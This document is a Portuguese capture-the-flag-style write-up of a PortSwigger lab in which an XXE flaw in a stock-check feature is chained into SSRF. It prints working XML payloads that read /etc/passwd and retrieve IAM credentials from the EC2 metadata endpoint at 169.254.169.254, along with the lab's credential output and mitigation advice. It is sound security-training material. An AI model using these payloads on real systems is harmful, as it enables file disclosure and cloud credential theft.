







# XXE — Exploiting XXE to Perform SSRF Attacks

## Contexto

A funcionalidade "Check stock" da aplicação processa XML enviado pelo cliente sem restrições. Isso permite injetar entidades XML externas (XXE) que fazem o servidor buscar recursos internos — transformando o XXE em um vetor de SSRF. O alvo era o endpoint de metadados do EC2 (`169.254.169.254`), que em ambientes AWS expõe credenciais sensíveis da instância.

**Lab:** [Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)

---

## Análise Inicial

A requisição de verificação de estoque enviava XML para o servidor:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

O servidor processava o XML e refletia valores inesperados na resposta — sinal claro de que a saída do parser XML estava sendo devolvida ao cliente, o que é o canal de exfiltração do XXE.

---

## Exploração — Fase 1: Confirmando XXE via file://

Primeiro testei leitura de arquivos locais com `file://` — equivalente a um `cat` no Linux:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY test SYSTEM "file:///etc">]>
<stockCheck>
    <productId>&test;</productId>
    <storeId>1</storeId>
</stockCheck>
```

A resposta retornou o conteúdo do diretório `/etc` — confirmando que o parser processava entidades externas e refletia o resultado.



Tentei `/etc/passwd` em seguida — o arquivo foi retornado com usuários do sistema visíveis, incluindo `carlos`, `peter` e `elmer`.



Útil para reconhecimento, mas o objetivo era as credenciais IAM — não arquivos locais.

---

## Exploração — Fase 2: SSRF via endpoint de metadados EC2

O endpoint `169.254.169.254` é o endereço padrão de metadados de instâncias EC2 na AWS. Substituí o protocolo `file://` por `http://` para fazer o servidor buscar esse endpoint interno:

```xml
<!DOCTYPE test [<!ENTITY test SYSTEM "http://169.254.169.254/">]>
```

A resposta retornou `latest` — uma pasta disponível no endpoint.



Naveguei iterativamente pela estrutura, adicionando cada segmento ao path:

```
http://169.254.169.254/latest              → meta-data
http://169.254.169.254/latest/meta-data    → iam
http://169.254.169.254/latest/meta-data/iam → security-credentials
```



```
http://169.254.169.254/latest/meta-data/iam/security-credentials/ → admin
```



Payload final:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY test SYSTEM
"http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
<stockCheck>
    <productId>&test;</productId>
    <storeId>1</storeId>
</stockCheck>
```

A resposta retornou as credenciais IAM completas da instância:

```json
{
  "Code": "Success",
  "Type": "AWS-HMAC",
  "AccessKeyId": "M3N7pLIlvX74S95GrDc0",
  "SecretAccessKey": "ldcFty9PdCsGa5BIGiDlVfntxZHITeONdz5MrVfM",
  "Token": "IZcwdBJwmCY9jWjzc27aiUEObxzkQhAxIa63XqolFaluFklroLTlhW4DoikFdh73TuOgm7lBQRyU00I7kf99J5amdQK0V...",
  "Expiration": "2032-06-11T13:21:55.382344475Z"
}
```





---

## Por que funcionou

Dois problemas encadeados tornaram o ataque possível. O parser XML aceitava e processava entidades externas sem restrição — a base do XXE. E o servidor fazia as requisições HTTP definidas nessas entidades a partir da sua própria rede interna, com acesso ao endpoint de metadados `169.254.169.254` que normalmente só é acessível de dentro da instância EC2.

O cliente nunca teria acesso direto a `169.254.169.254` — mas o servidor tem. O XXE transformou o servidor em proxy involuntário para acessar recursos internos.

---

## Impacto

As credenciais IAM obtidas (`AccessKeyId` + `SecretAccessKey` + `Token`) permitem autenticar na AWS como a role da instância. Dependendo das permissões configuradas, um atacante poderia acessar buckets S3, criar recursos, exfiltrar dados de outros serviços ou escalar privilégios dentro da conta AWS. Em ambientes de produção reais, esse vetor já foi responsável por vazamentos massivos de dados.

---

## Mitigação

Desabilitar o processamento de entidades externas no parser XML — em praticamente todas as linguagens isso é uma configuração explícita (`FEATURE_EXTERNAL_GENERAL_ENTITIES = false`). Implementar IMDSv2 no EC2, que exige um token de sessão para acessar o endpoint de metadados, bloqueando requisições não autenticadas via SSRF.

---

## Aprendizados

- XXE e SSRF são vulnerabilidades distintas que se tornam devastadoras quando encadeadas — o XXE é o vetor de entrada, o SSRF é o impacto real.
- O protocolo `file://` confirma leitura de arquivos locais; `http://` transforma o XXE em SSRF para recursos internos.
- Navegação iterativa pelo endpoint de metadados (`/latest` → `/meta-data` → `/iam` → `/security-credentials` → `/admin`) é a metodologia padrão para exploração de SSRF em ambientes AWS.
- O endpoint `169.254.169.254` é o primeiro alvo em qualquer SSRF descoberto em ambiente cloud — memorize esse IP.
